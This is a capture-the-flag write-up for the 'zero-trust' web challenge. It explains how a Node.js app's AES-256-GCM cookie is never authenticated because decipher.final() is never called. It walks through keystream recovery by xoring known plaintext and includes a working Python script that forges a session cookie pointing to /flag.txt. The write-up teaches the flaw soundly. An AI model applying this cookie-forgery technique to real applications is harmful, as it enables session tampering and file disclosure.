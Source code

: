 # web/zero-trust (24 solves/488 points/first blood)

> I was researching zero trust proofs in cryptography and now I have zero trust in JWT libraries so I rolled my own! That's what zero trust means, right?
>
> Note: the flag is in `/flag.txt`

Provided: [`index.js`](index.js)

## Solution

At first glance, the file we're provided seems pretty solid in the cryptography department.
They're using AES-256-GCM, an authenticated encryption mode of AES, which is a Good Thing™ since it prevents tampering with a ciphertext.

...or, at least it would if the authentication function didn't look like this:

```javascript
function needsAuth(req, res, next) {
    const auth = req.cookies.auth;
    if (typeof auth !== "string") {
        makeAuth(req, res, next);
        return;
    }
    try {
        const [iv, authTag, ct] = auth.split(".").map((x) => Buffer.from(x, "base64"));
        const cipher = crypto.createDecipheriv("aes-256-gcm", key, iv);
        cipher.setAuthTag(authTag);
        res.locals.user = JSON.parse(cipher.update(ct).toString("utf8"));
        if (!fs.existsSync(res.locals.user.tmpfile)) {
            makeAuth(req, res, next);
            return;
        }
    } catch (err) {
        makeAuth(req, res, next);
        return;
    }
    next();
}
```

Spot the problem yet? No worries, I'll point it out to you :)

Let's consult the documentation for the [Node.js `crypto` module](https://nodejs.org/api/crypto.html), specifically the `decipher.setAuthTag()` function:

> `decipher.setAuthTag(buffer[, encoding])`
>
> When using an authenticated encryption mode (`GCM`, `CCM`, `OCB`, and `chacha20-poly1305` are currently supported), the `decipher.setAuthTag()` method is used to pass in the received authentication tag. **If no tag is provided, or if the cipher text has been tampered with, `decipher.final()` will throw,** indicating that the cipher text should be discarded due to failed authentication. [emphasis mine]

We can see above that the `setAuthTag()` function is called before decrypting the data, but the `decipher.final()` function is never called.
This allows attackers (including us :)) to tamper with the ciphertext, negating basically any benefits an authenticated encryption mode may bring.

How is this useful though?
Well for starters, GCM stands for Galois Counter Mode.
It's based on the similar sounding Counter (CTR) mode, which essentially transforms AES into a stream cipher.
Instead of directly encrypting the plaintext with AES and xoring blocks with stuff for example (looking at you CBC), a stream cipher generates a key stream that is xored with the plaintext to create the ciphertext.
Let's see what that looks like for GCM, since that's what we're dealing with in this case.

<div align="center">
    <img src="img/gcm-diagram.png" alt="diagram displaying how GCM works by xoring the keystream with plaintext">
    <p style="text-align: center;">Courtesy of <a href="https://commons.wikimedia.org/wiki/File:GCM-Galois_Counter_Mode_with_IV.svg">Wikimedia Commons</a>.
    Note that we can ignore the bottom part since the authentication tag isn't actually checked :)</p>
</div>

Yep, definitely a stream cipher :)
Normally this wouldn't be useful information because xoring is really hard to invert, but this isn't normaly crypto.
Based on the `makeAuth` function, we actually know part of the plaintext that's encrypted with AES-256-GCM:

```javascript
function makeAuth(req, res, next) {
    const iv = crypto.randomBytes(16);
    // begin relevant section
    const tmpfile = "/tmp/pastestore/" + crypto.randomBytes(16).toString("hex");
    fs.writeFileSync(tmpfile, "there's no paste data yet!", "utf8");
    const user = { tmpfile };
    const data = JSON.stringify(user);
    // end relevant section
    const cipher = crypto.createCipheriv("aes-256-gcm", key, iv);
    const ct = Buffer.concat([cipher.update(data), cipher.final()]);
    const authTag = cipher.getAuthTag();
    res.cookie("auth", [iv, authTag, ct].map((x) => x.toString("base64")).join("."));
    res.locals.user = user;
    next();
}
```

The data that's being encrypted is just a JSON-serialized object with a single key (`tmpfile`) and value (the partially random path of the paste).
Let's check what the actual output of `JSON.stringify` looks like:

```javascript
>> console.log(JSON.stringify({"tmpfile":"/tmp/pastestore/aaaaaaaaaaa"}))
{"tmpfile":"/tmp/pastestore/aaaaaaaaaaa"}
```

Looks like there's no whitespace, so that's one less thing to deal with.
While we don't know the random path (it is random after all), luckily for us we don't need to since replacing the path with `/flag.txt` only reaches up to `pastestore`:

```javascript
{"tmpfile":"/tmp/pastestore/aaaaaaaaaaa"}
{"tmpfile":"/flag.txt"} // so short!
```

With that in mind, we can then modify our auth cookie to instead point to `/flag.txt`!
All we need to do is xor the ciphertext (i.e. the third component) with `{"tmpfile":"/tmp/pastestore/"` to recover the portion of the keystream we need, and then xor *that* with `{"tmpfile":"/flag.txt"}` to get a valid cookie pointing to the flag file.
Because GCM turns AES into a stream cipher, we don't have to worry about padding or anything; we can just truncate off the rest of the original ciphertext since we don't need it (or know it haha).

I wrote up [a quick Python script](forge.py) to automate the cookie tampering process:

```python
from base64 import b64decode, b64encode
from urllib.parse import unquote_plus, quote_plus

def xor(a, b):
    return bytes(aa ^ bb for aa, bb in zip(a, b))

auth = "mQQGDoGKo3Y0nVA2Uyz3ug%3D%3D.7PUFAYWIcbbZ2hnVSMpDAw%3D%3D.tBQr%2FSqwhT1hg%2BDzri2airPQuSmlA68ow61lwVa1blHkMWsMJUqxzogUdvJbjioXfYZJ2HBU5k%2BU4vju%2Bn8%3D"

if __name__ == "__main__":
    iv, tag, ct = auth.split(".")
    ct = b64decode(unquote_plus(ct))
    new_ct = xor(b'{"tmpfile":"/flag.txt"}', xor(b'{"tmpfile":"/tmp/pastestore/', ct))
    new_ct = quote_plus(b64encode(new_ct))

    print(f"new cookie: {iv}.{tag}.{new_ct}")
```

Running it gives you the forged cookie:

```shell
$ python forge.py
new cookie: mQQGDoGKo3Y0nVA2Uyz3ug%3D%3D.7PUFAYWIcbbZ2hnVSMpDAw%3D%3D.tBQr%2FSqwhT1hg%2BDzrj%2Bbm%2FuOrCKlRKE%3D
```

Swapping out your current authentication cookie with that one and reloading then displays the flag in the text box:

<div align="center">
<img src="img/flag-paste.png" alt="Flag present in paste text box after swapping out cookie">
</div>

And there it is! `lactf{m4yb3_st1ck_t0_l1br4r1es_wr1tt3n_by_comp3t3nt_p3opl3}`.
Can't help but agree with that advice if you're going to misuse a crypto library because you don't trust other peoples' tested-secure libraries.
[JWT is okay to hate on though ;)](https://www.howmanydayssinceajwtalgnonevuln.com/)